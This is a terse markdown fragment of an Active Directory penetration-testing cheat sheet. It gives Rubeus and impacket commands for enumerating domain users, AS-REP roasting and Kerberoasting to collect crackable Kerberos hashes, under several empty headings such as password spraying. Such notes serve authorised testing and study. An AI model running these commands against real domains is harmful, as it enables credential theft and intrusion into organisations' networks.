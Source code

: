 #### Check Policy

#### Spray

##### Windows
##### Linux

#### AS-REP Roasting

```
#Gets all users.
impacket-GetADUsers -all -dc-ip <dc_ip> <domain>/<username>

#Roasting
.\Rubeus.exe asreproast /nowrap
impacket-GetNPUsers.py <domain>/ -usersfile <usernames.txt> - format hashcat -outputfile <hashes.txt>
```
#### Kerberoasting

```
#Roasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
impacket-GetUserSPNs --request -dc-ip <ip> <domain>/<user>:<password>
```